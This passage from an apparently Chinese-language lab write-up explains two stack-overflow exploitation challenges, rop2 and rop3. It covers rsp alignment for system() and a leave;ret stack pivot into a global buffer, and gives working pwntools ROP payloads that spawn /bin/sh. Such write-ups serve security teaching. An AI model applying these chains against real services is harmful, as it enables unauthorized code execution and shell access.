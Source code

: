 但在运行的时候经过调试会在 system 函数中发生段错误，错误位置是一条 movaps 指令，想要访问 [rsp + 0x40]：

![](/assets/images/sec/software/lab1/rop2_segv.png)

经过搜索了解到 system 在执行的时候要求 rsp 16 字节对齐，否则会出现段错误。如上图此时 rsp 末尾为 8，为了让其变为 0 只需要多一次跳转即在 ROP 链中加一个直接跳转的指令地址就可以了：

```python
gstr_addr = elf.symbols["gstr"]
system = elf.symbols["system"]
pop_rdi = 0x400716
ret     = 0x400bf5

payload = b"A" * 0x58
payload += p64(pop_rdi)
payload += p64(gstr_addr)
payload += p64(ret)         # align rsp
payload += p64(system)
payload = payload + b"B" * (128 - len(payload))
```

远程：

![](/assets/images/sec/software/lab1/rop2_remote.png)

### rop3
这道题目限制了 buffer 的读入长度最多溢出 0x10，即一个 saved rbp 一个返回地址。但提供了外部的全局变量 gbuffer 也可以进行写入。所以要在 buffer 栈溢出的时候实现栈迁移，将 rbp rsp 转移到 gbuffer 中，然后在 gbuffer 中继续 ROP 链调用 system。

进行栈迁移需要 leave; ret 指令，首先目标函数会执行自己的 leave 指令来 mov rsp, rbp; pop rbp，这里 pop 的 rbp 就是栈上存的 saved rbp，是可以溢出覆盖的，可以将其覆盖为 gbuffer 地址。接下来在返回地址的位置放一条 leave; ret，这样就会继续再执行一条 leave，让 rsp 变成我们修改的位置，再 pop 会使其 +8，同时 rbp 相当于自身解引用了，后面不会用到，也就不用管它。

所以在 gbuffer 中，需要写入一个 /bin/sh 供后面使用，因为如前面的操作，rsp 会向后偏移 8 字节，这八字节也就是 gbuffer 开头直接放 /bin/sh\x00 即可。接下来 pop rdi; ret，然后放一个 gbuffer 地址，再放一个 system 地址即可。同时还要注意对齐 rsp：

```python
"""
❯ ROPgadget --binary rop3 | grep ": leave"
0x0000000000400700 : leave ; ret
❯ ROPgadget --binary rop3 | grep ": pop rdi ; ret"
0x0000000000400823 : pop rdi ; ret
❯ ROPgadget --binary rop3 | grep ": ret"
0x0000000000400586 : ret
"""
p.recvuntil("gift system address: ")
system = eval(p.recvline().decode().strip())
gbuffer = elf.symbols["gbuffer"]

leave_ret = 0x400700
pop_rdi   = 0x400823
ret       = 0x400586
payload = b"/bin/sh\x00"
payload += p64(pop_rdi)
payload += p64(gbuffer)
payload += p64(ret)
payload += p64(system)
print(f"payload = {payload}")
p.sendline(payload)

payload = b"A" * 0x40
payload += p64(gbuffer)
payload += p64(leave_ret)
print(f"payload = {payload}")
p.sendafter(b"> ", payload)

```